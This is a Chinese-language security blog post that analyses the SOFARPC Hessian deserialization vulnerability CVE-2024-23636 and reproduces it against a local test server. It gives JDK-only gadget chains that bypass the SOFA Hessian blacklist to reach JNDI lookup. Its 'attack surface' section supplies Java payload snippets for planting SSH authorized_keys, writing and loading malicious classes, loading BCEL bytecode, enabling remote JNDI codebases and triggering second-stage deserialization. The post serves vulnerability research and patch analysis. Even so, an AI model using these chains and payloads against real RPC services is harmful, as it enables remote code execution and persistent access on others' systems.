

SOFARPC 反序列化漏洞（CVE-2024-23636）浅析

- - -

## SOFARPC 反序列化漏洞（CVE-2024-23636）浅析

### 0x01 SOFARPC 简介

​ SOFARPC 是一个高性能、高扩展性、生产级的 Java RPC 框架。

​ 2024 年 1 月 24 日，启明星辰 VSRC 监测到 SOFARPC 中修复了一个反序列化漏洞（CVE-2024-23636），该漏洞的 CVSSv3 评分为 9.8。由于 SOFARPC 默认使用 SOFA Hessian 协议来反序列化接收到的数据，而 SOFA Hessian 协议使用黑名单机制来限制危险类的反序列化。SOFARPC 版本 5.12.0 之前，威胁者可通过 Gadget 链（只依赖于 JDK，不依赖任何第三方组件）绕过 SOFA Hessian 黑名单保护机制，导致远程代码执行。

### 0x02 序列化分析

​ sofa-rpc 默认使用 SOFA Hessian 协议来反序列化接收到的数据，所以，下载源码去看对应的实现。

​ 对应的代码在 com.alipay.sofa.rpc.codec.sofahessian 这个包下面

com/alipay/sofa/rpc/codec/sofahessian/SofaHessianSerializer.java# encode()

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165410-f7b5d554-be83-1.png)

这里先对传入 obj 获取对应的 serializer，若果没有获取到，就使用默认 Hessian 进行序列化。

com/alipay/sofa/rpc/codec/sofahessian/SofaHessianSerializer.java# decode()

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165430-03efb20e-be84-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165438-087a4834-be84-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165446-0d20c12e-be84-1.png)

对应两种反序列方式，可以看到就是 hessian 序列化和反序列化外面套了一成。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165451-104ab652-be84-1.png)

尝试一下，直接调用它的序列化，反序列化方法是能可以命令执行的。

因为直接调用它的序列化和反序列函数，是没用过黑名单的。

具体的流程就是非常短的一条链子

```plain
HashMap.equals
    UIDefault.equals
            Hashtable.equals
                UIDefault.get
                    UIDefault.getFromHashtable
                    SwingLazyValue.createValue
```

简单说就是 UIDefault 它里面没有 equals 方法，调用它的父类的 equals，然后触发 UIDefault.get。完成了 only jdk 的调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165502-173b1c18-be84-1.png)

这是 tostring 的方式。

### 0x03 exp 构造分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165510-1b856094-be84-1.png)

通告里面写的 org.apache.xpath 这个类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165514-1df096a0-be84-1.png)

这是 5.10 对应的黑名单。

只对这个类做了限制。

所以很容易想到就是 com.sun.org.apache.xpath.internal.objects.XString.equal 去触发 toString。

```plain
javax.swing.MultiUIDefaults.toString
           UIDefaults.get
               UIDefaults.getFromHashTable
                   UIDefaults$LazyValue.createValue
                   SwingLazyValue.createValue
                       javax.naming.InitialContext.doLookup()
```

但是 5.11.1 新增黑名单 javax.swing.UIDefaults

所以上面的链子在小于 5.11.1 是可以使用的。

5.11.1 既然能触发 tostring 能想到的去连 json 的序列化触发 getter。(Jackson、fastjson 在目前最新版 5.12 也没在黑名单里)

5.12 黑名单[https://github.com/sofastack/sofa-rpc/blob/v5.12.0/codec/codec-api/src/main/resources/sofa-rpc/serialize\_blacklist.txt](https://github.com/sofastack/sofa-rpc/blob/v5.12.0/codec/codec-api/src/main/resources/sofa-rpc/serialize_blacklist.txt) 增加到了一百七十多个

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165531-2858e642-be84-1.png)

就是这种直接全搬掉了，但是 hashmap 和 json 没办。就是可以找找 haspmap 的 hashcode、equals 触发 toString 然后触发 getter。

### 0x04 漏洞复现

用项目里的例子起一个服务端。参考泛化调用说明可以见：[https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/](https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165540-2d68f7b2-be84-1.png)

构建好 exp 用客户端发送 payload 到服务端就可以了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165545-30ac5b58-be84-1.png)

把黑名单替换为 5.11.0 的黑名单

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165551-344fd7d0-be84-1.png)

可以看到是可以攻击成功的。

```plain
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XStringForFSB.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就是 hessian 在序列化 Treemap 时会触发 compareTo。hessian 这里就不做分析。

还有一条是

```plain
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.sound.sampled.AudioFileFormat.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

就换了一下中间的步骤。看 2023 的那个 cve 遇警搬掉的就是 javax.sound.sampled.AudioFileFormat。

也就是说这次的 2024 就是他的绕过呗。

**5.11.1 本人技术有限，暂没找到原生触发**。然后想到的利用方式就是 tostring 去触发 json 序列化。环境有 fastjson2，jackson。

### 0x05 扩展一下攻击面

SwingLazyValue.createValue 可以调用 sun.reflect.misc.MethodUtil.invoke 方法达到任意类的任意方法调用，那这就有意思了。(试了下，hessian3.x 好像不能用这个，4.x 可以，写了就留着吧)

#### 一、不出网就写文件

写 ssh

```plain
//            二、利用 JavaUtils.writeBytesToFilename 写文件
       byte[] allBytes = Files.readAllBytes(new File("/Users/snake/.ssh/authorized_keys").toPath());
        Constructor<?> JavaUtils = JavaUtils.class.getDeclaredConstructors()[0];
        JavaUtils.setAccessible(true);
       Object javaUtils = JavaUtils.newInstance();
        Method bytesToFilename = JavaUtils.class.getMethod("writeBytesToFilename", String.class, byte[].class);
       Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
       Object[] ags = new Object[]{invoke, new Object(), new Object[]{ bytesToFilename,javaUtils,new Object[]{ "/Users/snake/.ssh/authorized_keys1",allBytes}}};
            SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
```

写 class

```plain
byte[] bytes = Files.readAllBytes(new File("evil.class").toPath());
            SwingLazyValue swingLazyValue= new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"jfr.save.generated.asm",(Object)"true"});
       SwingLazyValue swingLazyValue = new SwingLazyValue("jdk.jfr.internal.Utils","writeGeneratedASM",new Object[]{(Object)"/tmp/evil/",bytes});

打三次。开启 jfr.save.generated.asm，写 class，在加载。
```

#### 二、高版本开启 jndi 出网，在利用。

```plain
//        三、利用 RMIConnector/JdbcRowSetImpl/javax.naming.InitialContext 打 jndi，高版本先打下面配置，开启出网。(利用 java.lang.System.setProperty 开启配置)。
        Object useCodebaseOnly = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"java.rmi.server.useCodebaseOnly",(Object)"false"});
        Object rmi = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.rmi.object.trustURLCodebase",(Object)"true"});
/       Object ldap = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.ldap.object.trustURLCodebase",(Object)"true"});
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("a", new SwingLazyValue("javax.naming.InitialContext", "doLookup", new Object[]{"rmi://127.0.0.1:1099/remoteExploit8"}));
```

还可以高版本打 tomcat 的 el 表达式

#### 三、类加载

```plain
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Class<?> JVM = Class.forName("sun.tracing.dtrace.JVM");
        Method defineClass = JVM.getDeclaredMethod("defineClass", ClassLoader.class, String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Constructor<?> declaredConstructor = JVM.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Object jvm = declaredConstructor.newInstance();
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ defineClass,jvm, new Object[]{jvm.getClass().getClassLoader(),evil,bcode,0,bcode.length}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", ags);
//          第二次直接调用加载的方法
                SwingLazyValue swingLazyValue1 = new SwingLazyValue(evil, null, new Object[0]);
打两次，第一次加载，第二次调用
```

还有一些 becl 什么都是同理

```plain
//        ##加载 becl，第一次加载字节码，第二次调用
        JavaClass javaClass = Repository.lookupClass(calc.class);
        String payload = "$$BCEL$$"+ Utility.encode(javaClass.getBytes(), true);
        Method _main = JavaWrapper.class.getMethod("_main", String[].class);
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ _main,new JavaWrapper(),new Object[]{new String[]{payload}}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
//        SwingLazyValue swingLazyValue = new SwingLazyValue("_main()",null,null);
```

#### 四、打二次反序列

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129165616-42ffb93a-be84-1.png)

没过滤 javax.management.remote.rmi

```plain
File file = new File("jdk 的序列化 bin");
byte[] fileBytes = Files.readAllBytes(file.toPath());
String base64 = Base64.getEncoder().encodeToString(fileBytes);

JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
Method connect = rmiConnector.getClass().getMethod("connect");
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ connect,rmiConnector, null}};
```

打 RMIConnector 的二次。需要注意二次使用 jdk 的序列化，不是 hessian 的。

以上未尝试复现，纯理论，实战可能需要改改。

总后致敬**wh1t3p1g**，都是 XStream 的链子。

### 0x06 参考链接

[https://yml-sec.top/2022/04/20/apachedubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E5%88%86%E6%9E%90/](https://yml-sec.top/2022/04/20/apachedubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E5%88%86%E6%9E%90/)

[https://guokeya.github.io/post/psaIZKtC4/](https://guokeya.github.io/post/psaIZKtC4/)

[https://su18.org/post/hessian/](https://su18.org/post/hessian/)

[https://blog.0kami.cn/blog/2021/xstream\_blacklist\_bypass/](https://blog.0kami.cn/blog/2021/xstream_blacklist_bypass/)

​
